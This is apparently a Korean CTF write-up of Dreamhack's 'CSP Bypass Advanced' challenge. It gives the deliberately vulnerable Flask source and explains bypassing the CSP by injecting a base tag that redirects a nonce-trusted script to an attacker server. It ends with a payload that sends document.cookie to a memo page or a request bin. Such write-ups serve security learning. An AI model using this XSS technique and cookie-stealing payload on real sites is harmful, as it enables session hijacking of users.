 ## CSP Bypass Advanced
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

vuln.html 코드를 보면 ```param | safe```가 있는데 render_template로 리턴을 하면 html entity encoding이 되지만 safe를 사용하면 escape가 된다고 한다.

따라서 태그를 사용하면 그대로 출력되므로 xss 공격이 가능하다.

<br>

CSP Bypass 문제와 똑같이 입력해본 뒤 console 창을 확인하면 ```Uncaught SyntaxError: Unexpected token '<' (at vuln?param=alert():1:1)``` 에러가 뜬다.

source 탭을 확인해보면 ```<!doctype html>``` 에서 막힌 걸 알 수 있다. 

그 이유는 vuln 페이지에서 자바스크립트 코드만 나오지 않고 항상 처음에 ```<!DOCTYPE html>```가 있는 완전한 html문서가 나와 첫 줄부터 ```<```를 만나서 자바스크립트 해석에 에러가 생기기 때문이라고 한다.
: CSP Bypass 문제에서는 스크립트 코드를 입력하면 스크립트 코드만 있어서 실행된 것.

<br>

그럼 ```<script src=''>```를 이용해서 자바스크립트 코드를 불러오는 방법은 할 수 없는데 어떻게 해야 하는가?

문제에서 설정된 정책을 보면 ```base-uri``` 정책이 none으로 설정되어 있지 않다. 강의에서 ```base-uri``` 정책이 설정되지 않으면 발생하는 취약점이 설명되어 있다.

<br>

코드를 보면 ```<script src="/static/js/jquery.min.js" nonce=c7a587423b15cc87ec066f7b0e2e5984></script>```가 있다. 

```<base>``` 태그를 이용해 경로를 내 서버로 변경하면 ```<script src="/static/js/jquery.min.js">```는 내 서버에 있는 ```/static/js/jquery.min.js```에서 코드를 가져올 것이다.

이렇게 하면 ```script-src 'self'``` 정책을 위반하지 않는다. 

<br><br>

replit을 통해 flask로 서버를 연 뒤,  ```/static/js/jquery.min.js```를 추가한 뒤 ```alert(1)```을 저장한다. 

그 다음 ```/vuln``` 페이지에서 ```<base href="URL">```을 입력해주면 alert가 실행된다.

공격 코드로 ```location.href="http://localhost:8000/memo?memo='+document.cookie"``` 또는 dreamhack에서 제공하는 request bin 주소로 쿠키 값을 보내면 된다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## 알아낸 점
<hr style="border-top: 1px solid;"><br>

Link
: <a href="https://ind2x.github.io/posts/dreamhack_relative_path_overwrite/#solution-1" target="_blank">ind2x.github.io/posts/dreamhack_relative_path_overwrite/#solution-1</a>

<br>

base 태그를 사용할 때는 head에서 사용해야 된다고 되어있는데 그 이유는 base 태그가 사용된 위치에서부터 적용되기 때문이다.

head에서 사용되면 head는 맨 위에 있기 때문에 전체적으로 적용이 가능하기 때문이다.

중간에서 사용되면 중간부터 적용되므로 위의 문제에서도 중간에서 적용되어서 그 아래에 있는 script 코드에서는 변경된 base url이 적용되어서 문제가 풀린 것.

<br><br>
<hr style="border: 2px solid;">
<br><br>

